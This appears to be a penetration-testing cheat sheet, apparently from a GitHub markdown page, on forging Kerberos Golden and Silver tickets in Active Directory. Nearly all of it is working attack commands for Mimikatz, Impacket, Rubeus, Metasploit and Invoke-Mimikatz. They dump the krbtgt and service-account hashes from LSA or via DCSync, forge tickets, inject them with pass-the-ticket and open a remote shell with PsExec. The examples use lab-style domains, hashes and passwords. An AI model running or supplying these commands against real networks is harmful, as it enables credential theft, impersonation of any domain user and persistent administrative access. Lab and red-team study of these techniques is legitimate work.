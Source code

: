- **Forging Kerberos Tickets**

### Golden Tickets (TGT)
    //requires the Domain KRBTGT Account NTLM password hash
    //other requirements: Domain Name, SID, Impersonate user privs
    //Get hash:
        privilege::debug
        lsadump::lsa /inject /name:krbtgt
    //Pass the Ticket (generate and use):
        kerberos::golden /user:pavan /domain:ignite.local /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500 /ptt
        misc::cmd
    //Generate Saved Ticket and Use:
        kerberos::golden /user:pavan /domain:ignite.local /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500
        kerberos::ptt ticket.kirbi
        misc::cmd
    //Impacket Method:
        //get domain sid:  python lookupsid.py ignite/Administrator:Ignite@987@192.168.1.105
        //get hash:  python secretsdump.py administrator:Ignite@987@192.168.1.105 -outputfile krb -user-status
        //create & convert ticket:
            python ticketer.py -nthash f3bc61e97fb14d18c42bcbf6c3a9055f -domain-sid S-1-5-21-3523557010-2506964455-2614950430 -domain ignite.local raj
            export KRB5CCNAME=/root/Tools/impacket/examples/raj.ccache
            python ticketConverter.py /root/impacket/examples/raj.ccache ticket.kirbi
        //use it from mimikatz:
            kerberos::ptt ticket.kirbi
            misc::cmd
    //Rubeus Method:
        rubeus.exe hash /user:harshitrajpal /domain:ignite.local /password:Password@1
        rubeus.exe golden /aes256:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /ldap /user:harshitrajpal /printcmd
        Rubeus.exe ptt /ticket:ticket.kirbi
    //Metasploit:
        load kiwi
        //get hash:  dcsync_ntlm krbtgt
        //get info:  shell; ipconfig /all; nbtstat -a <dnsServerIP>
        //generate:  golden_ticket_create -d ignite.local -u pavan -s S-1-5-21-3523557010-2506964455-2614950430 -k f3bc61e97fb14d18c42bcbf6c3a9055f -t /root/Desktop/ticket.kirbi
    //Invoke-Mimikatz.ps1:
        //generate:  Invoke-Mimikatz -Command '"kerberos::golden /user:pavan /domain:ignite.local /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500 "'
        //use:  Invoke-Mimikatz -Command '"kerberos::purge"'; Invoke-Mimikatz -Command '"kerberos::ptt ticket.kirbi"'
        //generate and use:  Invoke-Mimikatz -Command '"kerberos::golden /user:pavan /domain:ignite.local /sid:S-1-5-21-3523557010-2506964455-2614950430 /krbtgt:f3bc61e97fb14d18c42bcbf6c3a9055f /id:500 /ptt"'
        

### Silver Tickets (TGS)
    //requires the Service Account (either the computer account or user account) password hash.
    //Linux:
        python ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park -spn cifs/labwws02.jurassic.park stegosaurus
        export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache 
        python psexec.py jurassic.park/stegosaurus@labwws02.jurassic.park -k -no-pass
    //Windows:
        #Create the ticket
        mimikatz.exe "kerberos::golden /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /rc4:b18b4b218eccad1c223306ea1916885f /user:stegosaurus /service:cifs /target:labwws02.jurassic.park"
        #Inject in memory using mimikatz or Rubeus
        mimikatz.exe "kerberos::ptt ticket.kirbi"
        .\Rubeus.exe ptt /ticket:ticket.kirbi
        #Obtain a shell
        .\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
        #Example using aes key
        kerberos::golden /user:Administrator /domain:jurassic.park /sid:S-1-5-21-1339291983-1349129144-367733775 /target:labwws02.jurassic.park /service:cifs /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /ticket:srv2-cifs.kirbi
        //Using Rubeus:
            rubeus.exe hash /user:harshitrajpal /domain:ignite.local /password:Password@1
            rubeus.exe silver /service:cifs/dc1.ignite.local /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ldap /creduser:ignite.local\Administrator /credpassword:Ignite@987 /user:harshitrajpal /krbkey:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /krbenctype:aes256 /domain:ignite.local /ptt
